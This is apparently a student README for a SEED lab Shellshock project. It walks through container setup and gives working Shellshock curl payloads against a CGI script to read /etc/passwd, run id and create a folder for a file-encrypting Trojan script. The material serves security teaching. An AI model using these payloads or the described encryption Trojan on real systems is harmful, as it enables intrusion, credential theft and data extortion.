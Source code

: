 
## Work Description

- Shellshock Attack with Reverse Shell <br/>
- Local Client and Server using Socket Programming to demonstrate Trojan Horse Attack <br/>
- Mini Implementation of Trojan Horse to encrpt user all files and to decrypt it with key<br/>

## Prerequisite

- SEED Lab <br/>
- Pyhton3 Install in Virtual machine<br/>
- Cryptography module for encryption module <br/>
- Fernet module of python for encryption & decryption <br/> 


## Steps to Run the ShellShock Attack:

1. ---DNS Setting---<br/>
Check for DNS settings for shellshock Attack using command ```less /etc/hosts```.<br/>
2. ---Container Setup---<br/>
Go in Lab setup and open terminal See if any container is running -> ```docker container list```.<br/>
See if any image is there -> ```docker image list```.<br/>
If you find difficulty For help type command ```docker run --help``` For conatiner help -> ```docker container --help```.<br/>
3. ---Build the container image---<br/>
Build and Run the Docker Compose using ```docker-compose build``` command in the folder after downloading labsetup files.<br/>
4.---Verify---<br/>
Run ```docker-compose up``` to set a trap at apache seed lab it will wait for victim. Check if victim is running ```dockps``` and run docker exec -> ```docksh```.<br/>
5. ---Web Server and CGI---<br/>
Check wheather the getenv and vul.cgi is present using ```ls /usr/lib/cgi-bin/``` <br/>
To check shell shock attack is possible or not I have created two C files ```listcommand.c``` and ```getpid.c``` to check wheather we can get victims shell access.<br/>
6. Run ```sudo cp bash_shellshock /bin/``` to run vulnerable shellshock shell.<br/>
Change permissions using ```sudo chown root vul``` and ```sudo chmod 4755 vul```.<br/>
7. Export a vulnerable function for instance ```export foo='() { echo "normal"; }; /bin/sh'``` and run it using ```./vul```.<br/>
8. ---Passing Data---<br/>
Once we have shell access of user we can use diffrent commands such as ```curl -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi``` to run files which we have created in labsetup folder in webserver using victims shell.<br/>
We can run several command like ```curl -H, e, and A``` to get diffrent infoirmation about users like passwords files or environment variables of victims.<br/> 
To get password file run  ```curl -A"() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```.<br/> 
You can verify in victims terminal by running ```cat /etc/passwd```<br/>
To get user process id and pid and gpid run ```curl -e "() { echo hello; }; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```<br/>
9. We can create a virus folder in victim using ```curl -H "ATTACK: () { echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/virus" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi``` using this folder we will inject our malicious python scripty to encrypt and decrypt users important files. <br/> 
10. To check for folder in victims  run ```ls/tmp``` <br/>
11. Finally we can implement our trojan horse attack using the pyhton script uploaded in my github branch.<br/> 
12. Close lab container  by ```docker-compose down``` <br/>

- Note:  If you have any concern reach me out and if you want contribute kindly open a pull request.


## Reference

- For the implementation of shellshock, seedlab setup is used (https://seedsecuritylabs.org/Labs_20.04/Web/Shellshock/).<br/>
- I have made changes in the docker-compose of the project and also creted several C files to get key information about users like PID GPID or to display users files and folders.<br/>
- The implmentation of trojan horse to encrpy and decrpt files in local Client and server using socket programming is created by me<br/>

## Author

- Fahad Patel - Univerisity of Windsor (110085698)

